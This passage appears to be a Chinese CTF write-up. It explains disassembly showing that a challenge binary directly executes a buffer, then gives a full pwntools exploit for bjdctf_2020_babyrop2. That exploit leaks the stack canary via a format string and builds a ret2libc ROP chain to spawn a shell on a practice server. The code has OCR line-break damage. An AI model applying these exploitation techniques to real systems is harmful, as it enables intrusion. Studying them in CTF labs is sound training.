 **若成功，即有读入（右边）**

```assembly
loc_11D6:                               ; CODE XREF: main+78↑j
lea     rax, [rbp+buf]
call    rax
mov     eax, 0
```

- `loc_11D6`：这是一个代码标签，当满足 `jg` 跳转条件时会跳转到这里。
- `lea rax, [rbp+buf]`：`lea` 是加载有效地址指令，这里将相对于基指针 `rbp` 偏移量为 `-410h`（前面定义的 `buf`）的内存地址加载到 `rax` 寄存器中。
- `call rax`：这是一个间接调用指令，它会将程序控制权转移到 `rax` 寄存器所指向的地址处执行代码。
- `mov eax, 0`：同样将寄存器 `eax` 赋值为 0，可能用于表示函数的正常返回状态。

**综上，可以很清楚的发现，直接往buf里面写入代码之后函数就会直接执行buf里的代码，所以直接注入shellcode就行**

## 36 bjdctf_2020_babyrop2

***格式化字符串+canary绕过+ret2libc***

我记得写过canary绕过的wp，忘了在哪了，再写一份吧

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',26391)
def dbg():
    gdb.attach(p)
    pause()
put_plt=elf.plt['puts']
put_got=elf.got['puts']
pop_rdi=0x0400993
main_addr=elf.symbols['main']
vuln_addr=0x400887

p.sendlineafter('help u!\n',b'%7$p')
p.recvuntil(b'0x')
canary = int(p.recv(16),16)

payload = p64(canary)
payload = payload.rjust(0x20,b'a')+b'a'*8+p64(pop_rdi)+p64(put_got)+p64(put_plt)+p64(vul
n_addr)
p.sendlineafter(b'story!\n',payload)
put_addr=u64(p.recv(6).ljust(8,b'\x00'))

libc=LibcSearcher('puts',put_addr)
libcbase=put_addr-libc.dump("puts")
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")

payload = p64(canary)
payload = payload.rjust(0x20,b'a')+b'a'*8+p64(pop_rdi)+p64(binsh_addr)+p64(system_addr)+
p64(vuln_addr)
p.sendlineafter('story!\n',payload)
p.interactive()
```
